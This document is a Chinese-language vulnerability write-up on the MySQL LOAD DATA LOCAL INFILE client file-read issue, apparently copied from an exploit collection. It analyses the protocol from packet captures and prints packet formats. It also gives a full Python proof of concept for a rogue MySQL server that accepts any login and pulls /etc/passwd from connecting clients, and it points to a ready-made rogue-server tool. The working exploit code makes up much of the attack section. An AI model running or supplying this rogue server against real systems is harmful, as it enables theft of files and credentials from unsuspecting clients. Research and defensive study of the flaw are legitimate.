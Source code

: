 # MySQL LOAD DATA 读取客户端任意文

> 原文：[http://book.iwonder.run/0day/Mysql/1.html](http://book.iwonder.run/0day/Mysql/1.html)

## 一、漏洞简介

### LOAD DATA INFILE

mysql 的 LOAD DATA INFILE 语句主要用于读取一个文件的内容并且存入一个表中。通常有两种用法，分别是：

```
load data infile "/etc/passwd" into table TestTable fields terminated by '分隔符';
load data local infile "/etc/passwd" into table TestTable fields terminated by '分隔符'; 
```

第一个语句是读取服务器上的/etc/passwd 文件并存入 TestTable 表中，第二个语句是读取客户端本地的/etc/passwd 文件并存入 TestTable 表中。我们要利用的是 LOAD DATA LOCAL INFILE。 官方文档中也提出了这个问题（PS：Google 翻译的不是很准确）

<center>![image](img/7ab30d4ae1800b07f398307b93012b42.png)</center>

## 二、漏洞影响

## 三、复现过程

### 分析数据包

测试环境： MacOS 10.14 Mysql 5.7.21

使用 tcpdump 抓取 3306 端口的数据包

<center>![image](img/64463853f5d910f71fb4f7d3b273adba.png)</center>

#### 1.服务器向客户端发送 greeting 问候包，包含服务端 banner 信息

<center>![image](img/9a2696d78ac49042b740dfa28e90a6e4.png)</center>

#### 2.客户端发送登陆请求包，包含用户名密码，以及含有 LOAD DATA LOCAL 选项的客户端 banner 信息。

<center>![image](img/e680275f48970126c983785baae8cef8.png)</center>

#### 3.然后是客户端初始化的一些查询，比如 select database(); select @@version_comment;

<center>![image](img/f916c50e186c150bb86352edbdec7868.png)</center>

#### 4.找到我们执行的 LOAD DATA INFILE 数据包，第一个包看起来比较正常，是客户端发起的 Request Que

<center>![image](img/32a75e4338b84cf1690f38a05cb20fe2.png)</center>

#### 5.但是紧接着服务器返回了一个包含刚才所要 LOAD DATA INFILE 的文件名/Users/smi1e/Desktop/test.txt 的数据包。

<center>![image](img/798824f0391cdb920b4f102acbbb1aa8.png)</center>

#### 6.然后客户端向服务端发送了/Users/smi1e/Desktop/test.txt 文件的内容：

<center>![image](img/2966c6ee4710334b4f6240ed1f15715f.png)</center>

如果我们在客户端发送查询之后，返回一个 Response TABULAR 数据包，即服务端向客户端发送了文件名的数据包，如果我们把这个文件名设置成我们想要读取的文件，那么我们就可以读取客户端的任意文件了。正如官方文档所写的 In theory, a patched server could be built that would tell the client program to transfer a file of the server's choosing rather than the file named by the client in the [LOAD DATA](https://dev.mysql.com/doc/refman/8.0/en/load-data.html "13.2.7 LOAD DATA Syntax") statement. 也就是说想要读取哪个文件是服务端说了算，跟客户端所 request 的文件名没有关系。

最重要的是伪造的服务端可以在任何时候回复一个 file-transfer 请求，不一定非要是在客户端发送 LOAD DATA LOCAL 数据包的时候。 不过如果想要利用此特性，客户端必须具有 CLIENT_LOCAL_FILES 即(Can use LOAD DATA LOCAL)属性。如果没有的话，就要在连接 mysql 的时候加上--enable-local-infile。

### 搭建 MySQL 服务端

主要分为

*   向 MySQL Client 发送 Server Greeting
*   等待 Client 端发送一个 Query Package
*   回复一个 file transfer 请求

我们需要知道如何构造 File Transfer 和 Server Greeting 数据包，这些包的格式都可以在 MySQL 的官方文档上找到。

File Transfer 数据包格式：Protocol::LOCAL_INFILE_Request

并且我们需要等待一个来自 Client 的查询请求，才能回复这个读文件的请求。不过我们在上面看到客户端在连接成功后会自动的做一些初始化的查询。

<center>![image](img/8f4481b447c0860fcfbc7cd51713ec69.png)</center>

官方也给了 exmaple

```
0c 00 00 01 fb 2f 65 74    63 2f 70 61 73 73 77 64    ...../etc/passwd 
```

数据包的内容其实是从\xfb 开始的，这个字节代表包的类型，后面紧跟要读取的文件名。前面的 0x0c 是数据包的长度（从 \xfb 开始计算），长度后面的三个字节\x00\x00\x01 是数据包的序号。

<center>![image](img/4bf787af317d6ae340b22429b25f07be.png)</center>

Greeting 数据包格式：官方文档，如果不会构造可以直接拷贝抓到的数据包然后改一下长度、文件名之类的。

这里直接拷贝大佬归纳的格式。

```
'\x0a',  # Protocol
'6.6.6-lightless_Mysql_Server' + '\0',  # Version
'\x36\x00\x00\x00',  # Thread ID
'ABCDABCD' + '\0',  # Salt
'\xff\xf7',  # Capabilities, CLOSE SSL HERE!
'\x08',  # Collation
'\x02\x00',  # Server Status
"\x0f\x80\x15", 
'\0' * 10,  # Unknown
'ABCDABCD' + '\0',
"mysql_native_password" + "\0" 
```

### poc

来源于[https://www.vesiluoma.com/abusing-mysql-clients/的 POC，测了一个多小时都没成功，最后发现里面](https://www.vesiluoma.com/abusing-mysql-clients/的 POC，测了一个多小时都没成功，最后发现里面) #3payload 写错了，我给改了下。

```
#!/usr/bin/python
#coding: utf8
import socket

# linux :
#filestring = "/etc/passwd"
# windows:
#filestring = "C:\Windows\system32\drivers\etc\hosts"
HOST = "0.0.0.0" # open for eeeeveryone! ^_^
PORT = 3306
BUFFER_SIZE = 1024

#1 Greeting
greeting = "\x5b\x00\x00\x00\x0a\x35\x2e\x36\x2e\x32\x38\x2d\x30\x75\x62\x75\x6e\x74\x75\x30\x2e\x31\x34\x2e\x30\x34\x2e\x31\x00\x2d\x00\x00\x00\x40\x3f\x59\x26\x4b\x2b\x34\x60\x00\xff\xf7\x08\x02\x00\x7f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x68\x69\x59\x5f\x52\x5f\x63\x55\x60\x64\x53\x52\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00"
#2 Accept all authentications
authok = "\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00"

#3 Payload
#数据包长度
payloadlen = "\x0c"
padding = "\x00\x00"
payload = payloadlen + padding +  "\x01\xfb\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind((HOST, PORT))
s.listen(1)

while True:
    conn, addr = s.accept()

    print 'Connection from:', addr
    conn.send(greeting)
    while True:
        data = conn.recv(BUFFER_SIZE)
        print " ".join("%02x" % ord(i) for i in data)
        conn.send(authok)
        data = conn.recv(BUFFER_SIZE)
        conn.send(payload)
        print "[*] Payload send!"
        data = conn.recv(BUFFER_SIZE)
        if not data: break
        print "Data received:", data
        break
    # Don't leave the connection open.
    conn.close() 
```

<center>![image](img/f1a4ebca9444430243805e6ae223040b.png)</center>

ps: 实测 下面这个项目比较好用，上面的 poc 还需要改长度和内容的 16 进制值 Github 还有一个项目：[https://github.com/allyshka/Rogue-MySql-Server](https://github.com/allyshka/Rogue-MySql-Server)

该特性适用于：MySQL Client、 PHP with mysqli、Python with MySQLdb、Python3 with mysqlclient、Java with JDBC Driver 等。

